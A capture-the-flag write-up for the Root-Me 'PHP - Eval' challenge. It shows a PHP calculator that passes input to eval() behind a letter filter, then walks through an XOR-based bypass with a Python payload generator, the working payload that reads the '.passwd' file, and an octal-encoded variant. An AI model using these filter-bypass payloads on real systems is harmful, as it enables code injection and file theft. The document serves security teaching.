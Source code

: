 
# PHP - Eval  ( Non-alphanumeric PHP code )

Challenge category : WEB-SERVER \
Difficulty : MEDIUM \
Links :  https://www.root-me.org/en/Challenges/Web-Server/PHP-Eval / https://www.root-me.org/en/Challenges/Web-Server/PHP-Eval

For this challenge there are 2 solutions , but in this writeup I will show only the first one 

Let's analyze the challenge  : 
```
Statement
Find a vulnerability in this service and exploit it.

Note : the flag is in .passwd file.
```
Source code : 
```php
<html>
<head>
</head>
<body>
 
<h4> PHP Calc </h4>
 
<form action='index.php' method='post'>
    <input type='text' id='input' name='input' />
    <input type='submit' />
<?php
 
if (isset($_POST['input'])) {
    if(!preg_match('/[a-zA-Z`]/', $_POST['input'])){
        print '<fieldset><legend>Result</legend>';
        eval('print '.$_POST['input'].";");
        print '</fieldset>';
    }
    else
        echo "<p>Dangerous code detected</p>";
}
?>
</form>
</body>
</html>

```
As the index says it should be a PHP calculator , but it uses the eval() function to do "calculations" and this makes it vulnerable to code injection 
![](./images/1.png)
![](./images/2.png)

We can enter numbers or special characters but not letters because the input is filtered by the preg_match() function : 
```php
 if(!preg_match('/[a-zA-Z`]/', $_POST['input']))
```

There are 2 ways to bypass this filter ( as mentioned above) , in this case we will have the eval() function perform XOR operations on special characters 
```
RAW   |  BINARY
/     =  00101111
            ⊕
_     =  01011111  

p     =  01110000

In PHP  XOR=^ so ('/' ^ '_')= 'p'

Example: 
p = ('/'^'_')
a = ('!'^'@')
s = ('('^'[')
s = ('('^'[')
w = ('('^'_')
d = ('$'^'@')

passwd   =  ('/'^'_').('!'^'@').('('^'[').('('^'[').('('^'_').('$'^'@')
```
Let's try entering the string above into the input field

![](./images/3.png)

It returned `passwd` 

Now let's try reading the contents of the `.passwd` file (which contains the flag as mentioned in the challege description) \
To do this we need to convert the `file_get_contents('.passwd')` function to XOR operations , I wrote a python script (don't mind the not-so-clean code ) : 

```python
import re
charset = ['!','$','%','&','/','(',')','=','{','[',']','}',',',';','.',':','-','_','+','*','~','#','\'','@','<','>','|','?','^',' ']

plain_text="file_get_contents('.passwd')"
pt_dict=[*plain_text]
payload=f""
fnd=0
for letter in pt_dict:
    fnd=0
    if not re.match('[a-zA-Z]',letter):
        if letter == '\'' : 
            letter='\\\''
        if letter == '"' : 
            letter = '\\"'
        payload+=f"'{letter}'."
        continue
    for char1 in charset :
        if fnd:
            fnd=1
            break
        for char2 in charset:
            if ord(char1)^ord(char2)==ord(letter):
                #print (f"{letter} : ('{char1}'^'{char2}'). \n ")
                payload+=f"('{char1}'^'{char2}')."
                fnd=1
                break
        
print (payload)
```
The script output will be : `('&'^'@').(')'^'@').(','^'@').('%'^'@').'_'.('['^'<').('%'^'@').('/'^'[').'_'.('='^'^').('/'^'@').('.'^'@').('/'^'[').('%'^'@').('.'^'@').('/'^'[').('('^'[').'('.'\''.'.'.('/'^'_').('!'^'@').('('^'[').('('^'[').('('^'_').('$'^'@').'\''.')'` \
Let's try entering the string above into the input field

![](./images/4.png)

As we can see the function is not executed but is printed , so let's try another way of executing a function : `(function)(arg)` so `(file_get_contents)(.passwd)`
```
(('&'^'@').(')'^'@').(','^'@').('%'^'@').'_'.('['^'<').('%'^'@').('/'^'[').'_'.('='^'^').('/'^'@').('.'^'@').('/'^'[').('%'^'@').('.'^'@').('/'^'[').('('^'['))('.'.('/'^'_').('!'^'@').('('^'[').('('^'[').('('^'_').('$'^'@'))
```

![](./images/5.png) \


Great ! it works. ✅


\ 
\
\
The other method is similar but uses octal encoding of characters, it is easier but I like more difficult methods 😜


```
 "\146\151\154\145\137\147\145\164\137\143\157\156\164\145\156\164\163"("\56\160\141\163\163\167\144")
 ```




